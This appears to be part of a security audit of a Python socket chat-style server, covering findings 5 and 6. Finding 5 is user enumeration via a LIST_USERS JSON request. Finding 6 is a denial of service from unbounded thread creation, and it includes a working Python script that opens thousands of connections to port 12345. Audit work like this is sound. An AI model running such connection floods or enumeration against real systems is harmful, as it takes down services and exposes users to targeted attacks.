 



**5. User Enumeration via LIST_USERS**
**Category:** Privacy / Authorization
**Location:**

line 149: elif command == 'LIST_USERS' returns all_users = list(self.users.keys()) to any logged-in user.

**Why it matters:**

Once I have any valid account, I can discover every username in the system. That list can be used for targeted phishing, dictionary attacks, and social engineering attacks.

**Attack Scenario**

Attacker needs any valid login (could be a disposable account they create).

Attacker can just:

```json
{"command":"LIST_USERS"}
```
and immediately get all usernames for follow on attacks.





**6. (bonus one) DOS via unbounded connections**

**Category:** Availability / Resource Exhaustion
**Location:**

line 179: in start_server(), every incoming accept() spawns a new thread unconditionally:

```python
while True:
    conn, addr = self.server_socket.accept()
    client_thread = threading.Thread(target=self.handle_client, args=(conn, addr))
    client_thread.daemon = True
    client_thread.start()
```
There is no limit on the number of concurrent threads or open sockets, nor any authentication required before thread creation.

**Why it matters:**

An attacker can open thousands of TCP connections to port 12345 (even without sending any valid JSON), causing the server to exhaust file descriptors, memory, or thread slots, and ultimately crash or become unresponsive.

**Attack Scenario**

Attacker just needs the ability to reach the server’s TCP port (no valid credentials needed).

How can they do it:
```python
conns = []
for i in range(10000):
    try:
        s = socket.create_connection(("localhost",12345))
        conns.append(s)
    except:
        break
    time.sleep(0.01)
print(f"opened {len(conns)} sockets; server should now be degraded")
input("press enter to close connections and restore service…")
for s in conns: s.close()
```
The server spawns one thread per connection. After a few thousand connections, it will run out of memory or hit the OS’s maximum threads/file-descriptors, causing denial of service for legitimate users.
